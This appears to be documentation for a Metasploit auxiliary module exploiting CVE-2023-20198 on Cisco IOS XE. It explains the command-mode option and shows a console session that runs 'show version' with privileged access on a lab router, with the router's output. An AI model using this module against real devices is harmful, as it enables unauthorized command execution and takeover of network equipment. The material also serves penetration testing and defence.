 ### MODE
Cisco IOS commands cna be executed in one of several modes, specifically "User EXEC" mode, "Privileged EXEC" mode, and 
"Global Configuration" mode. The `MODE` options lets you explicitly set what mode you want the `CMD` to execute in. Valid
modes are `user`, `privileged`, and `global`.

## Scenarios

### IOS-XE 16.12.03 (C1000v)
```
msf6 > use auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set CMD "show version"
CMD => show version
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > set MODE privileged
MODE => privileged
msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      show version     yes       The CLI command to execute.
   MODE     privileged       yes       The mode to execute the CLI command in, valid values are 'user', 'privileged', or 'global'.
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_cli_exec_cve_2023_20198) > run
[*] Running module against 192.168.86.57


Cisco IOS XE Software, Version 16.12.03
Cisco IOS Software [Gibraltar], Virtual XE Software (X86_64_LINUX_IOSD-UNIVERSALK9-M), Version 16.12.3, RELEASE SOFTWARE (fc5)
Technical Support: http://www.cisco.com/techsupport
Copyright (c) 1986-2020 by Cisco Systems, Inc.
Compiled Mon 09-Mar-20 21:50 by mcpre
Cisco IOS-XE software, Copyright (c) 2005-2020 by cisco Systems, Inc.
All rights reserved.  Certain components of Cisco IOS-XE software are
licensed under the GNU General Public License ("GPL") Version 2.0.  The
software code licensed under GPL Version 2.0 is free software that comes
with ABSOLUTELY NO WARRANTY.  You can redistribute and/or modify such
GPL code under the terms of GPL Version 2.0.  For more details, see the
documentation or "License Notice" file accompanying the IOS-XE software,
or the applicable URL provided on the flyer accompanying the IOS-XE
software.
ROM: IOS-XE ROMMON
router uptime is 3 hours, 59 minutes
Uptime for this control processor is 4 hours, 2 minutes
System returned to ROM by reload
System image file is "bootflash:packages.conf"
Last reload reason: reload
```